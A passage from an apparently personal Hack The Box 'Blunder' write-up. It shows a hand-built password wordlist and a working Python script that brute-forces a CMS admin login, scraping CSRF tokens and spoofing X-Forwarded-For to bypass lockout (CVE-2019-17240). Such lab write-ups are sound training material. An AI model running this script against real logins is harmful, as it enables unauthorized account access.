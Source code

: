 <img src="/images/blunder/todo.png" />

This gives us the name of a possible user "fergus".

Here is the part I got stuck because I had no leads or ideas about where to go from here. Heading over to Hackthebox forums (this has become a ritual for all my writeups) I see someone saying that everything I need is in front of me and It maybe written a bit different from others. I go back to the blog and start making a list of possible passwords **manually**. Later I found that there is a tool for cool people known as cewl, it is used to make a wordlist from automatically -_- . Anyway here is the list I made:

{% highlight bash%}
fergus
blunder
Blunder
admin
stephen king
stephen edwin king
king
richard bachman
rolanddeschain
RolandDeschain
oeuvre
king of horror
King of Horror
stadia
Stadia
usb
USB
1996
universal serial bus
Uinversal Serial Bus
yoo-es-bee

{% endhighlight %}

Moving on... I make python script to try all the passwords for the user "fergus" Soon to find out that my requests were getting blocked. WAHT?! I remember the CVEs I found had something to bypass this behaviour. I look at [CVE-2019-17240](https://www.cvedetails.com/cve/CVE-2019-17240/), which tells me that if I change the header X-Forwarded-For header the CMS will not be able to pin point the source of bruteforce to my IP and thus we will be able to bypass the mechanism. Here is the final script:

{% highlight python %}
import requests
import re
f=open('list.txt','r')
password=f.read().split('\n')
f.close()

for p in password:
	s=requests.Session()
	page=s.get('http://10.10.10.191/admin/')
	token=re.findall('name="tokenCSRF" value=".*"',page.text)
	payload={'username':'fergus','password':p,'tokenCSRF':token[0][24:-1]}
	x=s.post('http://10.10.10.191/admin/',data=payload,headers={'X-Forwarded-For':p})
	if 'Login' not in x.text:
		print(p)